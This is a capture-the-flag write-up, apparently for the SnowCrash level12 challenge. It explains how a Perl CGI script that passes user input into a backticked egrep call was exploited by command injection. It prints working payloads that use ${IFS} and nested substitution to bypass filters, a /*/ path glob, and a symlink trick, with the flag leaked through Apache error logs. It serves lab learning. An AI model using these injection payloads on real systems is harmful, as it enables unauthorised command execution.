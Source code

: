 so after 3 days of command injection on dash i found it

the code: 
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

tldr: cgi perl script vulnerable to cmd injection but no apparent output, nor spaces nor lowercase letters, so `;getflag>/tmp/f` wont do it this time...

so in reality this script apparently does nothing: receives two args, does grep, split, compare, and print one or two dots

only one line matters here, ```@output = `egrep "^$xx" /tmp/xd 2>&1`;``` which with it backticks launches a shell command with user supplied input

![HOWEVER](https://media1.tenor.com/m/1B5GF0waR4IAAAAC/cependant-jdg.gif)

the user supplied input is not such an input, as all letters go CAPS and everything after a space is deleted.
we're also in an egrep command, which really doesnt do anything but print an output, and the script really doesnt do anything but print dots.

our classic `getflag > /tmp/f` wont work, even in its `getflag>/tmp/f` form as it will become `GETFLAG>/TMP/F`

## Step 1. Denial

So of course, we werent buying that. 

> you can bypass it with a newline!

nope

> when you put a `#` it skips the validation!

huh?

> but look after the split it does something with the `y` arg!

hmm look closer because no too

we had few more ideas like that, meaning that...

Step 1 took 2 days.

## Step 2. Anger

i dont think i need to say too much here, it wasnt an easy path and many things were tried...

## Step 3. Bargaining

so we tried to negotiate out `getflag>/tmp/f` a little too hard, whice gave payloads that looked like:
```bash
echo 'system("getflag > /tmp/f")' > /tmp/xd #perl system command
echo -ne "GET /?x='\";${IFS%??}#${IFS}${IFS%??}$(${_}${IFS%??})\"<' HTTP/1.1\r\nHost: localhost\r\n\r\n" | nc localhost 4646
```
hoping it would be decoded to:

`egrep "^";${IFS%??}#${IFS}${IFS%??}$(${_}${IFS%??})"<" /tmp/xd 2>&1`

```bash
";${IFS%??}#${IFS}${IFS%??}$(${_}${IFS%??})"<
 |    |    |   |      |     |  |     |      |
 |    |    |   |      |     |  |     |      |
 |    |    |   |      |     |  |     |    Inject `/tmp/xd` into created perl shell
 |    |    |   |      |     |  |     | 
 |    |    |   |      |     |  |     Space
 |    |    |   |      |     |  |
 |    |    |   |      |     |  Should be equal to `/bin/perl`
 |    |    |   |      |     |
 |    |    |   |      |  Begin cmd execution
 |    |    |   |      |
 |    |    |   |      Space (to be sure)
 |    |    |   |
 |    |    |  put newline (`\t\n `)
 |    |    |
 |    |  Comment
 |    |
 |   == ` `
 |
Close quotes && begin new cmd
```

but this couldnt work for at least three reasons:
1. the first quote closes the first arg of egrep command, but we are forced to put another one as the end because otherwise the number would have been odd
2. egrep wants two args and we gave only one which meant egrep was waiting on stdin
3. but in reality it wasnt because the command is rearranged and transformed into `egrep "^" /tmp/xd 2>&1; $(${_})<`
4. `$_` doesnt actually is `/bin/perl` but instead `^`, as `$_` represents the last arg and not the last command (huh)

## Step 4. Depression

So what after this? Are we meant for this? Have we really spent our life doing things we dont understand? Are we truly that stupid? 
The answer, it seems, was yes.

In this phase, you go crazy and begin to find everything you can on the server. One thing I didn't mentionned here is that, for our tests, we were replicating the script locally and modified it to use argv, and not CGI. 

So after a bit of looking we find `/var/log/apache2/error.log` which contained multiple `sh: line 1: unexpected EOF while looking for matching "`.
Maybe the CGI was a specificity we overlooked, so we began testing on the server, tracing all spawned processes and looking at the error logs
	
## Step 5. Acceptance

> why did you tried so hard to use variables like that?

ah interesting question. you see, we tried very hard to execute a command by typing its name, e.g. with a payload like `;whoami`, `;$(whoami)`, and so on, but remember every letter is uppercased, and `WHOAMI` doesnt exists as a binary.

so we quickly concluded binary exec is not possible, but maybe a little too quickly

back to our error logs: tinkering with the above payload, I once made a mistake that was decisive.

Why is that? I was trying to make sure of what directory the script spawns in, but as the script didnt outputted anything i tried various substitutions.

Then this happened:

```bash
echo -ne "GET /?x='$(<$(${PWD}))' HTTP/1.1\r\nHost: localhost\r\n\r\n" | nc localhost 4646
[...script outputs dots...]

tail /var/log/apache2/error.log
[...]
[error] [client 127.0.0.1] sh: 1: 
[error] [client 127.0.0.1] /var/www/level12: Permission denied
[error] [client 127.0.0.1] sh: 1: cannot open : No such file
```

So thats how we get our output: we launch command of the output of another command. So if we were to to `$($(/bin/getflag))` we should have `sh: [getflag output]: command not found`, thus revealing the flag!!

But two problems: 
1. Letters are uppercased (`$($(GETFLAG))`)
2. Paths are forbidden (`$($(/BIN/))`)

One possible solution: we control /tmp. If we were to do `ln -s /bin/getflag /tmp/GETFLAG`, the only thing left is to try and find a way to access `/tmp`. This is the exact same problem than if you try to find a file that is in a subdirectory, but you dont know which one. Dont remind you of anything? Remember `*`?

Try on your machine `/*/ls`, you'll find it works. So we do the same:

```bash
level12@SnowCrash:~$ ln -s /bin/getflag /tmp/GETFLAG
level12@SnowCrash:~$ echo -ne 'GET /?x=${IFS}$(<$(/*/getflag)) HTTP/1.1\r\nHost: localhost\r\n\r\n' | nc localhost 4646
HTTP/1.1 200 OK
Server: Apache/2.2.22 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2
Content-Type: text/html

..
level12@SnowCrash:~$ tail /var/log/apache2/error.log
[error] [client 127.0.0.1] 
[error] [client 127.0.0.1] sh: 1: cannot open Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr: No such file
level12@SnowCrash:~$ su level13
Password:
level13@SnowCrash:~$
```